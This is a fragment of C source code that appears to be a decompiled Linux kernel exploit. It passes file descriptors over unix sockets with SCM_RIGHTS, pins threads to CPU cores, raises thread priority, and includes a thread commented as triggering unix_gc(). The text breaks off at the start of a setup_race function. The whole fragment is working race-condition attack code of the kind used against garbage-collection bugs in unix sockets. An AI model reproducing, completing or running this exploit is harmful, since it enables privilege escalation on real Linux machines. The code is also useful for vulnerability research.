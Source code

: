 ```c
  *((int *)CMSG_DATA(cmsg)) = fd;
  msg.msg_controllen = CMSG_SPACE(sizeof(fd));
  if (sendmsg(socket, &msg, 0) < 0) perror("Failed to send message send_fd");
}
 
static void send_fds(int socket, int *fds, int num_fds, int num_iovs) {
  struct msghdr msg = {0};
  char buf[CMSG_SPACE(num_fds * sizeof(int))];
  memset(buf, '\0', sizeof(buf));
  struct iovec io[num_iovs];
  for (int i = 0; i < num_iovs; i++) {
    io[i].iov_base = "A";
    io[i].iov_len = 2;
  }
  msg.msg_iov = io;
  msg.msg_iovlen = num_iovs;
  msg.msg_control = buf;
  msg.msg_controllen = sizeof(buf);
  struct cmsghdr *cmsg = CMSG_FIRSTHDR(&msg);
  cmsg->cmsg_level = SOL_SOCKET;
  cmsg->cmsg_type = SCM_RIGHTS;
  cmsg->cmsg_len = CMSG_LEN(num_fds * sizeof(int));
  memcpy(cmsg->__cmsg_data, fds, num_fds * sizeof(int));
  if (sendmsg(socket, &msg, 0) < 0) perror("Failed to send message send_fds");
}
 
__int64 pin_cpu(int core_id) {
  cpu_set_t mask;
  CPU_ZERO(&mask);
  CPU_SET(core_id, &mask);
  return sched_setaffinity(0, sizeof(mask), &mask);
}
 
// thread to trigger unix_gc()
void t_main_gc_simple(__int64 a1, __int64 a2) {
  int v3;
  int fd;
 
  setpriority(PRIO_PROCESS, 0, -19);
  pin_cpu(3LL);
  pthread_mutex_lock(&condition_mutex_gc);
  pthread_cond_wait(&condition_cond_gc, &condition_mutex_gc);
  pthread_mutex_unlock(&condition_mutex_gc);
  fd = socket(1, 1, 0);  // AF_LOCAL, SOCK_STREAM
  v3 = socket(1, 1, 0);
  setpriority(PRIO_PROCESS, 0, -18);
  close(fd);
  pthread_cond_signal(&condition_cond_recvmsg);
  close(v3);
  usleep(0x186A0u);
}
 
int fd_34[2];
int local_spair[2];
 
__int64 setup_race(int a1) {
  __int64 result;
  __int64 v3;
  int v4[3];
  int v5[710];
  int local_spair[2];
  int v7;
  int v8;
```